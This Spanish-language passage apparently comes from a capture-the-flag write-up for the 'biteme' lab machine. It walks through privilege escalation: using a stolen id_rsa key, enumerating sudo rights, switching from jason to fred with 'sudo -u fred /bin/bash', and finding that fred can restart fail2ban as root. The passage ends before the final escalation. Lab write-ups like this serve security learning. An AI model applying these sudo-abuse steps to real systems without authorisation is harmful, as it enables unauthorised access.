 ### Escalada de privilegios

Cambiando los permisos del `id_rsa` con el siguiente comando `chmod 600 id_rsa` para poder hacerlo uso.

![20231209125324.png](20231209125324.png)

#### Usuario: Jason

Enumerando los permisos del usuario del `jason` podemos ver los siguientes permisos.

```php
jason@biteme:~$ sudo -l
Matching Defaults entries for jason on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jason may run the following commands on biteme:
    (ALL : ALL) ALL
    (fred) NOPASSWD: ALL

```

Teniendo los permisos `(fred) NOPASSWD: ALL`, para escalar privilegios a `fred` ejecutaremos una `/bin/bash` como el usuario `fred`.

```php
jason@biteme:~$ sudo -u fred /bin/bash
fred@biteme:~$ whoami
fred
```

#### Usuario: fred

Enumerando los permisos de `fred` haremos uso de `sudo -l` para visualizar los permisos de ejecución con privilegios. Vemos que tenemos permisos de ejecutar `/bin/systemctl restart fail2ban` con privilegios de usuario root.

```php
fred@biteme:~$ sudo -l
Matching Defaults entries for fred on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on biteme:
    (root) NOPASSWD: /bin/systemctl restart fail2ban
```
